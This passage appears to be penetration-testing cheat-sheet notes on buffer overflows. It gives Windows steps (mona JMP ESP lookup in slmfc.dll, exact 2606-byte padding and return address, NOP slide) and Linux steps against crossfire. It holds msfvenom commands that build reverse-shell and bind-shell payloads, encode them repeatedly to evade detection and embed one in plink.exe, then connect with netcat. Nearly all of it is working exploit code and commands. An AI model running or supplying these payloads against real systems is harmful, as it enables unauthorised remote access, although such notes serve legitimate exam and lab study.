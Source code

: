     *   Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

    *   Use NASM to determine the HEX code for a JMP ESP instruction

            /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

            JMP ESP  
            00000000 FFE4 jmp esp

    *   Run Mona in immunity log window to find (FFE4) XEF command

            !mona find -s "\xff\xe4" -m slmfc.dll  
            found at 0x5f4a358f - Flip around for little endian format
            buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390

    *   MSFVenom to create payload

            msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"

    *   Final Payload with NOP slide

            buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

    *   Create a PE Reverse Shell  
        msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f  
        exe -o shell_reverse.exe

    *   Create a PE Reverse Shell and Encode 9 times with Shikata_ga_nai  
        msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f  
        exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

    *   Create a PE reverse shell and embed it into an existing executable  
        msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

    *   Create a PE Reverse HTTPS shell  
        msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe

*   Linux Buffer Overflows

    *   Run Evans Debugger against an app  
        edb --run /usr/games/crossfire/bin/crossfire

    *   ESP register points toward the end of our CBuffer  
        add eax,12  
        jmp eax  
        83C00C add eax,byte +0xc  
        FFE0 jmp eax

    *   Check for “Bad Characters” Process of elimination - Run multiple times 0x00 - 0xFF

    *   Find JMP ESP address  
        "\x97\x45\x13\x08" # Found at Address 08134597

    *   crash = "\x41" * 4368 + "\x97\x45\x13\x08" + "\x83\xc0\x0c\xff\xe0\x90\x90"

    *   msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai

    *   Connect to the shell with netcat:  
        nc -v $ip 4444
